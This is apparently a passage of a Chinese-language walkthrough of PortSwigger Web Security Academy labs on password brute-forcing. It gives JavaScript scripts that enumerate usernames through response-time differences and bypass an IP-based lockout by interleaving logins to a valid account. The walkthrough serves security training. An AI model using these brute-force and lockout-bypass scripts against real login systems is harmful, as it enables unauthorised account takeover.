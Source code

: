 結果有多個 `['carlos', 'ak']`，畢竟透過時間來判斷不是很準確

```js
async function main() {
  for (const username of ["carlos", "ak"]) {
    for (const password of passwords) {
      const start = performance.now();
      const response = await login(username, password);
      // custom logic here
      const text = await response.text();
      const end = performance.now();
      const ms = end - start;
      const isBlocked = text.includes(
        "You have made too many incorrect login attempts. Please try again in 30 minute(s).",
      );
      const isValid = response.redirected;
      if (isValid) {
        console.log(username, password);
        return;
      }
      if (isBlocked) return;
      if (ms > 400) console.log(username, password);
    }
  }
}
```

這題的重點是，在爆破 username 的時候，記得 password 用長一點的，才可以把時間差異擴大

## Lab: Broken brute-force protection, IP block

| Dimension | Description                                                                                                  |
| --------- | ------------------------------------------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/authentication/password-based#flawed-brute-force-protection             |
| Lab       | https://portswigger.net/web-security/authentication/password-based/lab-broken-bruteforce-protection-ip-block |

```js
function loginWiener() {
  fetch(
    "https://0a7a00c20376c23880502121006a0043.web-security-academy.net/login",
    {
      headers: {
        "content-type": "application/x-www-form-urlencoded",
      },
      body: "username=wiener&password=peter",
      method: "POST",
      mode: "cors",
      credentials: "include",
    },
  );
}

async function main() {
  for (const password of passwords) {
    const response = await login("carlos", password);
    // custom logic here
    const isCorrect = response.redirected;
    if (isCorrect) return console.log(password);
    await loginWiener();
  }
}
```
